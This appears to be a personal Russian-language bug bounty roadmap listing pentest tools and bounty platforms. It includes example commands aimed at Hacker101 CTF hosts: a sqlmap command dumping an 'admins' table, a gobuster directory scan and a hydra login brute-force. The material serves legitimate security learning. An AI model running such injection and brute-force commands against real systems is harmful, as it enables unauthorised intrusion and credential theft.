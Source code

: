 # Roadmap

1. Получение новых знаний и навыков
2. Нахождение багов
3. Составление корректного отчета о найденном баге

## Инструменты:

+ nmap - сканирование открытых портов
+ sqlmap - сканирование на sql инъекции
+ gobuster - сканирование на поддомены, директории
+ hydra - brute force логина/пароля

## Примеры использования инструментов

+ sqlmap -u "https://87712c999b75e62ae32cdf2d219d057c.ctf.hacker101.com/login" --method="POST" --data="username=123&password=123" -v 2 --dbms "MySQL" --threads 5 --dump -T admins
+ gobuster dir -u "https://50268e340771b49bd51c70d2bd81195d.ctf.hacker101.com" -w ~/Documents/projects/pentest/SecLists/Discovery/Web-Content/
Logins.fuzz.txt
+ hydra -V -t 32 -L ~/Documents/projects/pentest/SecLists/Usernames/Names/names.txt -p password https-post-form://50268e340771b49bd51c70d2bd81195d.ctf.hacker101.com/login:"username=^USER^&password=^PASS^":"Invalid username"

## Регистрация на сайтах

+ https://hacker101.com/ (ctf)
+ https://bugbounty.ru/
+ https://bugbounty.standoff365.com/
+ https://bugbounty.bi.zone/
